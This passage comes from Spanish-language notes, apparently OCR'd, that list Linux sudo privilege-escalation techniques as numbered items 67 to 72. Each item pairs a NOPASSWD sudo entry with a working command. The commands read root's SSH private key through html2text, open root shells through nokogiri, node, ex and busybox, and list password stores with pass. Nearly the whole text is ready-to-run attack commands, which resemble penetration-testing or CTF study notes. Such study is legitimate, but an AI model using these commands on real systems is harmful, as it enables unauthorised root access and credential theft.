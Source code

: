 yafc > shell 

listo somos root !!!

67.-	/usr/bin/html2text

(root) NOPASSWD: /usr/bin/html2text

podemos ver archivos en texto plano

ejemplo id_rsa de root

sudo /usr/bin/html2text /root/.ssh/id_rsa

68.-	/usr/bin/nokogiri

nokogiri es una herramienta Ruby. Te permite ejecutar código Ruby si usás el flag -e (execute)

(root) NOPASSWD: /usr/bin/nokogiri

sudo -u root /usr/bin/nokogiri /etc/passwd

me aparece para que ingrese comandos:

irb(main):001:0>

ejecuto:

exec '/bin/bash -i'

listo soy root !!!


69.-	/usr/bin/node

(root) NOPASSWD: /usr/bin/node

sudo /usr/bin/node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'

70.- 	/usr/bin/ex


(root) NOPASSWD: /usr/bin/ex

sudo /usr/bin/ex

luego escribimos


:!/bin/bash

o

:!/bin/sh

71.- /usr/bin/busybox

 (will) NOPASSWD: /usr/bin/busybox

sudo -u will /usr/bin/busybox sh

72.- /usr/bin/pass


Listamos passwords stores

sudo /usr/bin/pass ls 
